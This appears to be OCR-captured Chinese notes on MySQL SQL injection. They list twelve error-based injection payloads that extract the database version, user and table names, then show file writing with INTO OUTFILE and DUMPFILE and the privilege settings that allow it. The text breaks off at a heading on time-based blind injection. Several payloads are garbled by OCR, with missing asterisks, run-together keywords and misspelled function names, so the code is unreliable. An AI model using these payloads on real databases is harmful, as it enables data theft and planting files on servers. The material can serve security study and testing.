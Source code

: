 > 1、通过floor报错,注入语句如下:
> and select 1 from (select count(),concat(version(),floor(rand(0)2))x from
> information_schema.tables group by x)a);
> 2、通过ExtractValue报错,注入语句如下:
> and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables
> limit 1)));
> 3、通过UpdateXml报错,注入语句如下:
> and 1=(updatexml(1,concat(0x3a,(selectuser())),1))
> 4、通过NAME_CONST报错,注入语句如下:
> and exists(selectfrom (selectfrom(selectname_const(@@version,0))a join (select
> name_const(@@version,0))b)c)
> 5、通过join报错,注入语句如下:
> select * from(select * from mysql.user ajoin mysql.user b)c;
> 6、通过exp报错,注入语句如下:
> and exp(~(select * from (select user () ) a) );
> 7、通过GeometryCollection()报错,注入语句如下:
> and GeometryCollection(()select *from(select user () )a)b );
> 8、通过polygon ()报错,注入语句如下:
> and polygon (()select * from(select user ())a)b );
> 9、通过multipoint ()报错,注入语句如下:
> and multipoint (()select * from(select user() )a)b );
> 10、通过multlinestring ()报错,注入语句如下:
> and multlinestring (()select * from(selectuser () )a)b );
> 11、通过multpolygon ()报错,注入语句如下:
> and multpolygon (()select * from(selectuser () )a)b );
> 12、通过linestring ()报错,注入语句如下:
> and linestring (()select * from(select user() )a)b );

# 如何读写文件？

SELECT "123" INTO OUTFILE "c:/123.txt";
SELECT "123abc" INTO DUMPFILE "c:/123.txt";

要使用联合查询写文件，不能使用and或or拼写文件

#### 首要条件

1. 绝对路径

2. file_priv开关需要打开状态

   select file_priv from mysql.user;

3. secure_file_priv=

   默认是空，等号后面什么都不加

   - 设置为空，那么对所有路径均可进行导入导出。
   - 设置为一个目录名字，那么只允许在该路径下导入导出。
   - 设置为Null，那么禁止所有导入导出。



# 如何延时盲注？
